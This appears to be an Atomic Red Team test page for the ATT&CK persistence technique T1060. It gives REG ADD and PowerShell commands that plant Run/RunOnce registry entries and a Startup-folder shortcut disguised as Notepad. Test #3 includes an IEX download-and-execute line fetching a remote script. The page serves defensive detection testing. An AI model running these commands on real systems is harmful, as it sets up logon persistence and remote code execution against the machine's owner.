 # T1060 - Registry Run Keys / Startup Folder
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1060)
<blockquote>Adding an entry to the "run keys" in the Registry or startup folder will cause the program referenced to be executed when a user logs in. (Citation: Microsoft Run Key) These programs will be executed under the context of the user and will have the account's associated permissions level.

The following run keys are created by default on Windows systems:
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce</code>

The <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx</code> is also available but is not created by default on Windows Vista and newer. Registry run key entries can reference programs directly or list them as a dependency. (Citation: Microsoft RunOnceEx APR 2018) For example, it is possible to load a DLL at logon using a "Depend" key with RunOnceEx: <code>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\temp\evil[.]dll"</code> (Citation: Oddvar Moe RunOnceEx Mar 2018)

The following Registry keys can be used to set startup folder items for persistence:
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders</code>
* <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders</code>
* <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders</code>

Adversaries can use these configuration locations to execute malware, such as remote access tools, to maintain persistence through system reboots. Adversaries may also use [Masquerading](https://attack.mitre.org/techniques/T1036) to make the Registry entries look as if they are associated with legitimate programs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Reg Key Run](#atomic-test-1---reg-key-run)

- [Atomic Test #2 - Reg Key RunOnce](#atomic-test-2---reg-key-runonce)

- [Atomic Test #3 - PowerShell Registry RunOnce](#atomic-test-3---powershell-registry-runonce)

- [Atomic Test #4 - Startup Folder](#atomic-test-4---startup-folder)


<br/>

## Atomic Test #1 - Reg Key Run
Run Key Persistence

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | Thing to Run | Path | C:\Path\AtomicRedTeam.exe|

#### Run it with `command_prompt`! ```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /t REG_SZ /F /D "#{command_to_execute}"
REG DELETE "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /f
```



<br/>
<br/>

## Atomic Test #2 - Reg Key RunOnce
RunOnce Key Persistence

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | C:\Path\AtomicRedTeam.dll|

#### Run it with `command_prompt`! ```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "#{thing_to_execute}"
REG DELETE HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /f
```



<br/>
<br/>

## Atomic Test #3 - PowerShell Registry RunOnce
RunOnce Key Persistence via PowerShell

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | powershell.exe|

#### Run it with `powershell`! ```
$RunOnceKey = "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce"
set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"'
Remove-ItemProperty -Path $RunOnceKey -Name "NextRun" -Force
```



<br/>
<br/>

## Atomic Test #4 - Startup Folder
Add Shortcut To Startup via PowerShell

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | C:\Path\AtomicRedTeam.exe|

#### Run it with `powershell`! ```
$TargetFile = "$env:SystemRoot\System32\#{thing_to_execute}"
$ShortcutFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Notepad.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
$Shortcut.TargetPath = $TargetFile
$Shortcut.Save()
```



<br/>
